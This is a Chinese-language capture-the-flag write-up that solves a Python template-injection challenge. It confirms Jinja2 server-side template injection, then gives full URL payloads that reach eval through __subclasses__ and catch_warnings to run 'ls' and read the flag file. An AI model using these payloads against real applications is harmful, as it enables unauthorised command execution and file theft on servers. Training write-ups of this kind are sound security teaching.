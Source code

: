 ## Web_python_template_injection

题目的URL： http://61.147.171.105:63539
题目已经提示为python的 模板注入
先访问环境信息
http://61.147.171.105:63539/{{1+2}}
![image.png](http://moonsec.top/articlepic/55bfecfaed866743c6a737f80dca2153.png)
证明存在模板注入
参考https://moonsec.top/articles/108 这个文章中的模板注入步骤

先找对应的相关模板信息：
http://61.147.171.105:63539/%7B%7B().__class__.__bases__[0].__subclasses__()%7D%7D
![image.png](http://moonsec.top/articlepic/bb0028a0242a8f172690875ba85b444c.png)
确认为jinja2 类型的模板注入
使用通用的getshell 命令

```
http://61.147.171.105:63539/{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls').read()") }}{% endif %}{% endfor %}
```

![image.png](http://moonsec.top/articlepic/cffaaacb81a8583e6bf2fb4bc1e3fbb7.png)
下面就是读取该文件了
```
http://61.147.171.105:63539/{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat fl4g').read()") }}{% endif %}{% endfor %}
```
![image.png](http://moonsec.top/articlepic/a64caa885ff8ff21e67a9cb3bbc8ffc8.png)